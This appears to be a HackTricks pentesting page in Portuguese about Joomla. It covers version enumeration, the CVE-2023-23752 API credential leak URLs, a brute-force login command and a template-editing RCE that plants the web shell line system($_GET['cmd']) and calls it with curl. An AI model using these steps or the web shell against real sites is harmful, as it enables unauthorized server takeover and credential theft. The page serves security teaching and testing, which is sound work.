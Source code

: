 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Estatísticas do Joomla

O Joomla coleta algumas [estatísticas de uso](https://developer.joomla.org/about/stats.html) anônimas, como a distribuição das versões do Joomla, PHP e dos sistemas de gerenciamento de banco de dados e sistemas operacionais de servidor em uso nas instalações do Joomla. Esses dados podem ser consultados através de sua [API](https://developer.joomla.org/about/stats/api.html) pública.
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeração

### Descoberta/Mapeamento

* Verifique o **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Versão

* Em **/administrator/manifests/files/joomla.xml** você pode ver a versão.
* Em **/language/en-GB/en-GB.xml** você pode obter a versão do Joomla.
* Em **plugins/system/cache/cache.xml** você pode ver uma versão aproximada.

### Automático
```bash
droopescan scan joomla --url http://joomla-site.local/
```
Em[ **80,443 - A metodologia de pentesting web é uma seção sobre scanners de CMS**](./#cms-scanners) que podem escanear Joomla.

### Divulgação de Informações Não Autenticadas pela API:

Versões de 4.0.0 a 4.2.7 são vulneráveis à divulgação de informações não autenticadas (CVE-2023-23752) que irá despejar credenciais e outras informações.

* Usuários: `http://<host>/api/v1/users?public=true`
* Arquivo de Configuração: `http://<host>/api/index.php/v1/config/application?public=true`

**Módulo MSF**: `scanner/http/joomla_api_improper_access_checks` ou script ruby: [51334](https://www.exploit-db.com/exploits/51334)

### Força Bruta

Você pode usar este [script](https://github.com/ajnik/joomla-bruteforce) para tentar realizar um ataque de força bruta no login.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Se você conseguiu obter **credenciais de admin**, você pode **RCE dentro dele** adicionando um trecho de **código PHP** para ganhar **RCE**. Podemos fazer isso **personalizando** um **template**.

1. **Clique** em **`Templates`** no canto inferior esquerdo sob `Configuration` para abrir o menu de templates.
2. **Clique** em um nome de **template**. Vamos escolher **`protostar`** sob o cabeçalho da coluna `Template`. Isso nos levará à página **`Templates: Customise`**.
3. Finalmente, você pode clicar em uma página para abrir o **código fonte**. Vamos escolher a página **`error.php`**. Vamos adicionar um **PHP one-liner para ganhar execução de código** da seguinte forma:
1. **`system($_GET['cmd']);`**
4. **Salvar & Fechar**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## De XSS a RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Script de Exploração Joomla que **eleva XSS a RCE ou Outras Vulnerabilidades Críticas**. Para mais informações, confira [**este post**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Ele fornece **suporte para as Versões Joomla 5.X.X, 4.X.X e 3.X.X, e permite:**
* _**Escalação de Privilégios:**_ Cria um usuário no Joomla.
* _**(RCE) Edição de Templates Integrados:**_ Edita Templates Integrados no Joomla.
* _**(Custom) Exploits Personalizados:**_ Exploits Personalizados para Plugins de Terceiros do Joomla.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
